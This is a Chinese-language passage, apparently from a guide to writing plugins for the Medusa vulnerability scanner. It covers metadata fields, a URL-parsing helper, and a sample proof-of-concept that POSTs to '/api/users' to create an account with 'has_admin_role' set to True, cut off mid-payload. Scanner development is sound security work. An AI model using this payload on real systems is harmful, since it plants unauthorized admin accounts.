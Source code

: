 | rank         | 漏洞等级     | 分为：严重、高危、中危、低危四个种类                         |
| suggest      | 修复建议     | 给出缓解措施或者解决办法                                   |
| disclosure | 披露时间 | 漏洞披露时间，如果不知道就写编写插件的时间 |
| version      | 漏洞所影响的版本         | 只要写漏洞所影响的版本范围，适用于那些版本     |
| disclosure | 披露时间 | 漏洞披露时间，如果不知道就写编写插件的时间 |


### UrlProcessing函数

对`url`进行处理

```python
def UrlProcessing(url):
    if url.startswith("http"):#判断是否有http头，如果没有就在下面加入
        res = urllib.parse.urlparse(url)
    else:
        res = urllib.parse.urlparse('http://%s' % url)
    return res.scheme, res.hostname, res.port
```

函数对各个部分进行处理，最终我们只需要取得` scheme` ,` port` , ` hostname` 的值返回给调用函数就行

该函数在`2.7`插件编写规范版本中已写入`ClassCongregation`类中，调用只需要如下操作即可

```python
使用方法一：单独导入
from ClassCongregation import UrlProcessing
scheme, url, port = UrlProcessing().result(Url)
使用方法二：直接导入
import ClassCongregation
scheme, url, port = ClassCongregation.UrlProcessing().result(Url)
```



### medusa函数

```python
def medusa(Url, RandomAgent, UnixTimestamp):
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = '/api/users'
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        headers = {
            'User-Agent': RandomAgent,
            'Accept': 'application/json',
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "application/json",
        }
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
```